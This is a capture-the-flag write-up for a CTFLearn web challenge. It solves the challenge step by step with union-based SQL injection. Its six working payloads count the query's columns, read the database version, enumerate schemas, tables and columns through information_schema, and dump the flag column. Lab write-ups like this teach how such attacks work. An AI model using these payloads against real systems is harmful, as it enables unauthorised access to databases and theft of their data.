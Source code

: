 # URL
https://ctflearn.com/challenge/149
# Concept
* union SQL injection
# Method of solve
* go to the website provided
* there is an SQL injectable field that we can interact with
* the first thing we need to do is determine the number of columns that the original query returns
* this payload will let us know that the number of columns is four:
```
1 UNION SELECT null,null,null,null -- 
```
* the next step is to determine which DBMS is being used by the app
* this payload lets us know that the app is using a MySQL-compatible DBMS
```
1 UNION SELECT null,null,version(),null --
```
* the next step is to determine the name of the database being used
* this payload lets us know that the database's name is `webeight`
```
1 UNION SELECT null,null,schema_name,null FROM information_schema.schemata --
```
* the next step is to determine the table names
* this payload lets us know that the table name is `w0w_y0u_f0und_m3`
```
1 union SELECT null,null,group_concat(table_name),null FROM information_schema.tables WHERE table_schema = database() --
```
* the next step is to find out the column names in the table
* this payload lets us know that these are the names of the columns:
```
-1 union select null,null,column_name,null FROM information_schema.columns -- -
```
* the last step is to get everything from that column with the following payload
```
-1 union select null,null,f0und_m3,null FROM w0w_y0u_f0und_m3 -- -
```
